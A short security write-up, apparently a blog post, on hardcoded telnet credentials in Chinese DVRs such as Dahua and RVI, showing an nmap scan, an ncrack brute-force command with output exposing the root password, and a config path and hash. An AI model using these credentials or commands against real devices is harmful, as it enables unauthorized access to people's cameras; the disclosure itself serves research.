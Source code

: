 <h1>Hardcoded telnet login\password in Chinese DVR, like Dahua, RVI.</h1>

<br/>Also, it can be rebranded and sell under a different name.
<br/>
<br/>Nmap report looks interesting:
<br/>Nmap scan report for 192.168.100.15
<br/>Host is up (0.0050s latency).
<br/>Not shown: 65527 closed ports
<br/>
<br/>PORT      STATE    SERVICE        VERSION
<br/>
<br/>23/tcp    open     telnet         BusyBox telnetd
<br/>81/tcp    open     http           uc-httpd 1.0.0
<br/>445/tcp   filtered microsoft-ds
<br/>4090/tcp  open     ssl/omasgport?
<br/>9527/tcp  open     unknown
<br/>9528/tcp  open     unknown
<br/>34567/tcp open     dhanalakshmi?
<br/>34599/tcp open     unknown
<br/>
<br/>Device type: WAP
<br/>Running: Linux 2.4.X
<br/>OS CPE: cpe:/o:linux:linux_kernel:2.4.36
<br/>OS details: DD-WRT v24-sp1 (Linux 2.4.36)
<br/>Network Distance: 5 hops
<br/>Service Info: Host: LocalHost
<br/>
<br/>And, with ncrack i "recover" hardcored telnet creds.
<br/>
<br/>ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
<br/>Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
<br/>Discovered credentials for telnet on 192.168.100.15 23/tcp:
<br/>192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
<br/>Ncrack done: 1 service scanned in 27.06 seconds.
<br/>Ncrack finished.
<br/>
<br/>Web-ui configuration files are stored in /mnt/mtd/Config/, but i did not understand password hash in file Account1.
<br/>Also, in my case sed did not work. Empty password hash - tlJwpbo6.
<br/>
<br/>Still work on this.
